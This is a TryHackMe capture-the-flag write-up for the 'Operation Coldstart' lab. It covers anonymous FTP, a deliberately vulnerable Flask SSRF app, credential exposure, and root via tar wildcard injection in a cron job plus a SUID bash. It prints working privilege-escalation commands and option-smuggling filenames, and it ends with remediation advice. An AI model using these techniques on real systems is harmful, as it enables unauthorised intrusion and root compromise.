# Operation Coldstart Write-up

**Platform**: TryHackMe <br>
**Room**: Operation Coldstart ([https://tryhackme.com/room/operationcoldstart](https://tryhackme.com/room/operationcoldstart)) <br>
**Category**: Network | Web Application <br>
**Target**: Linux <br>
**Techniques**: Anonymous FTP, Source Code Disclosure, Server-Side Request Forgery (SSRF), SSH, Cron Wildcard Injection, SUID Privilege Escalation <br>
**Final Goal**: Root Access

## Executive Summary

This assessment evaluated the security of the **Operation Coldstart**, or **Vault Labs** staging environment, which exposed a web-based URL preview service alongside FTP and SSH services. The objective was to determine whether the exposed services and application functionality could be abused to obtain unauthorised access and ultimately compromise the underlying system.

The assessment identified several vulnerabilities, including anonymous FTP access, source code disclosure, Server-Side Request Forgery (SSRF), and an insecure root cron job. These issues could be chained together to access an internal administrative endpoint, obtain valid SSH credentials, escalate from the `webdev` account to `root`, and ultimately achieve full system compromise.

The assessment highlights the importance of restricting access to internal functionality, validating server-side URL requests, protecting sensitive configuration information, and ensuring that privileged scheduled tasks cannot be influenced through attacker-controlled files or command-line arguments.

## Overview

Operation Coldstart simulates an exposed staging environment where a **URL Preview Service** provides functionality for fetching and displaying the contents of user-supplied URLs.

The objective is to gain access to the staging server, identify vulnerabilities in the web application and underlying system, move from the web application to the operating system, and ultimately obtain root access.

The room demonstrates an attack chain involving:

- Service and web application enumeration
- Anonymous FTP access
- Backup archive extraction
- Source code disclosure
- Server-Side Request Forgery (SSRF)
- Internal administrative endpoint access
- Credential disclosure
- SSH access
- Cron job enumeration
- `tar` wildcard injection
- Root command execution
- SUID binary creation
- Root privilege escalation

### Attack Chain



---

## Initial Enumeration

The assessment began with an Nmap scan to identify exposed services and determine the technologies running on the target:

```bash
nmap -sV -sC -p- 10.114.150.78
```

The `-p-` option scans all TCP ports, while `-sV` attempts to identify service versions and `-sC` runs Nmap's default NSE scripts against discovered services.

The scan identified three open ports:

| Port | Service | Observation |
|------|---------|-------------|
| 21 | FTP | Provides a potential method of accessing sensitive data if anonymous login is enabled. |
| 22 | SSH | Provides a potential method of obtaining a stable shell if valid credentials are discovered. |
| 80 | HTTP | Hosts the **Volt Labs** portal. |



The presence of both FTP and HTTP provided two initial attack surfaces for further enumeration.

## Web Directory Enumeration

A Gobuster directory scan was performed against the HTTP service to identify accessible files and directories:

```bash
gobuster dir -u "http://10.114.150.78" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -x .php,.js,.html,.py,php.bak,.git,.env,.txt
```

Gobuster performs directory and file discovery by requesting potential paths from a wordlist. The `-x` option additionally checks for the specified file extensions.

The scan identified two endpoints:
- `/admin`
- `/preview`



## Anonymous FTP Access

Since FTP was exposed on port 21, anonymous authentication was tested:

```bash
ftp 10.114.150.78
```

Anonymous FTP allows users to access an FTP service without providing a personal account, typically by authenticating with the `anonymous` username. If improperly configured, this can expose files that should not be publicly accessible.

Anonymous access was successful, and a `pub` directory was identified. The directory contained a `backup.tar.gz` archive, which was downloaded for further analysis.



The archive was extracted with:

```bash
tar xfz backup.tar.gz
```

The `tar` command was used to extract the gzip-compressed archive. Three files were recovered:

- `README.md`
- `app.py`
- `requirements.txt`



## Source Code Analysis

The recovered `README.md` described the application as an internal staging tool called **Volt Labs URL Preview**:

```text
## README.md

# Volt Labs URL Preview

Internal staging tool. Run with `gunicorn -b 0.0.0.0:80 app:app`.

Admin routes are gated by source-IP check (localhost only).
```

The `requirements.txt` file showed that the application was built using Flask and Gunicorn:

```text
## requirements.txt

flask
requests
gunicorn
```

The `app.py` source code provided further insight into the application's functionality and security controls.

```python
## app.py

from flask import Flask, request, abort
from urllib.parse import urlparse
import html
import requests

app = Flask(__name__)

# Only requests targeting an approved internal hostname are forwarded.
# Internal hostname resolves to 127.0.0.1 via /etc/hosts on this box.
ALLOWED_HOSTS = {"kestrel.thm"}

CSS = """
<style>
:root{--primary:#0d6efd;--bg:#f6f8fa;--card:#fff;--text:#212529;--muted:#6c757d;--border:#dee2e6}
*{box-sizing:border-box}
body{margin:0;font-family:-apple-system,BlinkMacSystemFont,"Segoe UI",Roboto,"Helvetica Neue",Arial,sans-serif;font-size:16px;line-height:1.5;color:var(--text);background:var(--bg)}
a{color:var(--primary);text-decoration:none}
a:hover{text-decoration:underline}
.navbar{background:#212529;color:#fff;padding:.75rem 1.5rem;display:flex;align-items:center;justify-content:space-between;box-shadow:0 1px 3px rgba(0,0,0,.08)}
.navbar .brand{font-weight:600;font-size:1.125rem;letter-spacing:.2px}
.navbar .muted-light{color:#a5acb3;font-size:.95rem}
.container{max-width:960px;margin:2rem auto;padding:0 1rem}
.card{background:var(--card);border:1px solid var(--border);border-radius:.5rem;padding:1.5rem;margin-bottom:1.25rem;box-shadow:0 1px 2px rgba(0,0,0,.04)}
h1{font-size:1.75rem;margin:0 0 .75rem}
h2{font-size:1.25rem;margin:1.25rem 0 .5rem}
.muted{color:var(--muted);font-size:.95rem}
.form-group{margin-bottom:1rem}
label{display:block;margin-bottom:.25rem;font-weight:500;font-size:.95rem}
.form-control{display:block;width:100%;padding:.5rem .75rem;font-size:1rem;line-height:1.5;color:var(--text);background:#fff;border:1px solid var(--border);border-radius:.375rem;transition:border-color .15s,box-shadow .15s}
.form-control:focus{outline:0;border-color:#86b7fe;box-shadow:0 0 0 .2rem rgba(13,110,253,.25)}
.btn{display:inline-block;padding:.5rem 1rem;font-size:1rem;font-weight:500;border:1px solid transparent;border-radius:.375rem;cursor:pointer;transition:background .15s}
.btn-primary{background:var(--primary);color:#fff}
.btn-primary:hover{background:#0b5ed7}
pre{background:#f1f3f5;border:1px solid var(--border);border-radius:.375rem;padding:.75rem;overflow:auto;font-size:.9rem;white-space:pre-wrap;word-break:break-word}
footer.site{text-align:center;color:var(--muted);margin:2rem 0;font-size:.875rem}
</style>
"""

def page(title, body):
    return f"""<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>{title} - Volt Labs</title>{CSS}</head>
<body>
<nav class="navbar">
    <span class="brand">Volt Labs</span>
    <span class="muted-light">URL Preview Service &middot; staging</span>
</nav>
<main class="container">{body}</main>
<footer class="site">&copy; Volt Labs &middot; do not expose externally</footer>
</body>
</html>"""

@app.route("/")
def index():
    body = """
    <div class="card">
        <h1>URL Preview Service</h1>
        <p class="muted">Internal tool. Paste a URL below to preview its contents.</p>
        <form method="get" action="/preview">
            <div class="form-group">
                <label for="url">URL</label>
                <input id="url" type="text" name="url" class="form-control" placeholder="https://example.com/" required>
            </div>
            <button type="submit" class="btn btn-primary">Preview</button>
        </form>
    </div>
    """
    return page("URL Preview", body)

@app.route("/preview")
def preview():
    target = request.args.get("url", "")
    if not target:
        return page("Preview Error",
                    '<div class="card"><p>Provide a <code>?url=</code> parameter.</p></div>'), 400

    # VULN: hostname allow-list is the only check. No scheme check, no path check,
    # no localhost-rebind protection - the SSRF is still abusable, but only
    # against the allowed hostname.
    host = (urlparse(target).hostname or "").lower()
    if host not in ALLOWED_HOSTS:
        return page("Preview Blocked",
                    '<div class="card"><p>Host not in the approved internal allow-list.</p></div>'), 403

    try:
        r = requests.get(target, timeout=3)
        safe_target = html.escape(target)
        safe_body = r.text.replace("<", "&lt;")
        body = f"""
        <div class="card">
            <h2>Preview of {safe_target}</h2>
            <pre>{safe_body}</pre>
        </div>
        """
        return page("Preview", body)
    except Exception as e:
        safe_err = html.escape(str(e))
        return page("Preview Failed",
                    f'<div class="card"><p>Fetch failed: {safe_err}</p></div>'), 502

@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```

The source code showed that the application was a Flask-based URL Preview Service. It accepted a user-supplied URL and used the `requests` library to retrieve its contents before displaying the response.

The application restricted requests based on the hostname:

```python
ALLOWED_HOSTS = {"kestrel.thm"}
```

The source code also indicated that `kestrel.thm` resolved to `127.0.0.1` through the target's `/etc/hosts` file.

More importantly, the `/admin/` endpoint was restricted to requests originating from the loopback interface:

```python
if not request.remote_addr.startswith("127."):
    abort(403)
```

The `/admin/notes` endpoint subsequently opened and returned the contents of:

```python
/opt/voltlabs-preview/admin_notes.txt
```

The application therefore contained an internal administrative endpoint that was not directly accessible from the external network.

## Server-Side Request Forgery

The `/preview` functionality was vulnerable to **Server-Side Request Forgery (SSRF)**. SSRF occurs when an application retrieves a resource based on user-controlled input, allowing an attacker to make the server send requests to locations that may not be directly accessible to the attacker.

In this case, the application attempted to restrict SSRF by checking whether the supplied hostname belonged to the `ALLOWED_HOSTS` set. However, the approved hostname itself resolved to `127.0.0.1`, allowing the URL preview functionality to reach services bound to the local interface.

The source code explicitly identified the vulnerability:

```python
# VULN: hostname allow-list is the only check. No scheme check, no path check,
# no localhost-rebind protection - the SSRF is still abusable, but only
# against the allowed hostname.
```

The application was first accessed at `http://10.114.150.78`. The page displayed the **URL Preview Service**. The functionality was tested with the approved internal hostname, `http://kestrel.thm`. The request succeeded, confirming that the application could retrieve content from the internal hostname.



The internal `/admin/notes` endpoint could then be requested through the URL preview functionality:

```text
http://operation-coldstart.thm/preview?url=http://kestrel.thm/admin/notes
```

Because the request was made by the server itself, the `/admin/notes` endpoint saw the request as originating from the loopback interface and therefore passed its source-IP check.

The response exposed credentials for SSH access as the `webdev` user.



## SSH Access

The discovered credentials were used to authenticate to the SSH service identified during the initial Nmap scan:

```bash
ssh webdev@10.114.150.78
```

After entering the discovered password, SSH access was obtained as `webdev`. The directory in which the session started contained the first flag in `user.txt`.



## Cron Job Enumeration

The next objective was to escalate privileges from `webdev` to `root`. The system's cron directories were enumerated with:

```bash
ls -la /etc/cron.*
```

The `ls -la` command lists directory contents, including hidden files, while `/etc/cron.*` targets the standard system cron directories.

An interesting `voltlabs-backup` job was identified under `/etc/cron.d` and was owned by root.



The job contained the following configuration:

```bash
# Volt Labs staging backup - runs as root
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *
```



The job executed every minute as `root` and changed into `/opt/backups` before running:

```bash
tar czf /var/backups/uploads.tgz *
```

The use of the wildcard character `*` was significant because the shell expands it into the names of files present in the directory before executing the command.

## Cron Wildcard Injection

The backup command was vulnerable to wildcard command injection. This occurs when a privileged command uses a wildcard to process files in an attacker-writable directory and the resulting filenames can be interpreted as command-line options by the executed program.

In this case, filenames beginning with `--` could be expanded by the shell and subsequently passed to `tar` as options rather than being treated only as filenames.

Two specially crafted filenames were used:

```bash
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
```

The `--checkpoint-action=exec=sh` option instructs tar to execute the specified command when a checkpoint is reached. Since the cron job executed as `root`, this provided a way to execute `shell.sh` with root privileges.

The required files were created from `/opt/backups`.

First, the directory was entered:

```bash
cd /opt/backups
```

A script was then created to copy the Bash binary to `/tmp` and assign it the SUID permission:

```bash
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > shell.sh
```

The Bash binary was copied to `/tmp` so that a SUID copy could be created without modifying the original `/bin/bash`.

The required `tar` options were then created as filenames:

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
```

The `--` argument tells `touch` to stop interpreting subsequent values as command-line options, allowing filenames beginning with `--` to be created.



When the root cron job subsequently executed:

```bash
tar -czf /root/backup.tgz *
```

the wildcard expanded to the specially crafted filenames. The resulting `tar` invocation interpreted them as options, causing `shell.sh` to be executed with root privileges.

After a short period, the SUID Bash binary appeared in `/tmp`.



## Root Privilege Escalation

The SUID Bash binary was executed with:

```bash
/tmp/bash -p
```

The `-p` option preserves the effective privileges of the SUID binary instead of dropping them. Since the binary was owned by `root` and had the SUID permission set, this resulted in a root shell.

The final flag was located at `/root/flag.txt`.



Reading the file confirmed full root access to the target.

# Conclusion

The assessment identified a complete attack path from externally exposed services to root-level access. Anonymous FTP access exposed a backup archive containing the application's source code, which revealed the URL Preview Service and its hostname-based SSRF protection. The SSRF could then be used to access the internal `/admin/notes` endpoint and obtain valid SSH credentials for the `webdev` account.

Further enumeration identified a root-owned cron job that executed `tar` with a wildcard in an attacker-writable directory. By creating filenames that were interpreted as `tar` command-line options, the scheduled task could be abused to execute a script as `root`. This resulted in the creation of a SUID Bash binary and ultimately provided a root shell.

The assessment demonstrates how multiple configuration and application-level weaknesses can be chained together to achieve full system compromise. Individually, the exposed backup, insufficient SSRF restrictions, disclosed credentials, and insecure cron configuration each represented a security concern; together, they provided a complete path from unauthenticated access to root.

---

# Remediation Recommendations

The compromise of the Vault Labs environment was achieved by chaining several independent vulnerabilities. Addressing the following issues would significantly reduce the application's attack surface and limit the impact of a successful compromise.

| Finding | Recommendation |
|---------|----------------|
| **Anonymous FTP Access** | Disable anonymous FTP access unless it is explicitly required. If FTP is necessary, restrict access to authorised users and ensure that sensitive backups or application files are not stored in publicly accessible directories. |
| **Source Code Disclosure** | Prevent application source code and backup archives from being exposed through externally accessible services. Sensitive files should be stored outside publicly accessible directories and protected with appropriate access controls. |
| **Server-Side Request Forgery (SSRF)** | Avoid relying solely on hostname allow-lists when validating server-side requests. Restrict requests to explicitly required destinations, validate the scheme and destination, and prevent access to loopback, private, and other internal network addresses. |
| **Internal Administrative Interface** | Do not rely solely on the source IP address as an authentication or authorisation mechanism. Administrative functionality should require proper authentication and authorisation controls in addition to network-level restrictions. |
| **Credential Exposure** | Do not store or expose reusable credentials within administrative files or application responses. Credentials should be securely managed using an appropriate secrets-management mechanism and rotated if exposed. |
| **Insecure Cron Configuration** | Avoid executing privileged commands with attacker-controlled wildcards in writable directories. Restrict write permissions on directories used by root-owned scheduled tasks and use explicit file paths or safer archive-generation methods where possible. |
| **Excessive Privileges** | Review the privileges assigned to application and service accounts and ensure that they follow the principle of least privilege. |
| **SUID Binary Creation** | Monitor and restrict the creation of SUID binaries, particularly in world-writable or temporary directories such as `/tmp`. Existing SUID binaries should be regularly reviewed and unnecessary SUID permissions removed. |

Implementing these recommendations would significantly reduce the likelihood of an attacker progressing from a publicly accessible web application to full root access on the underlying system.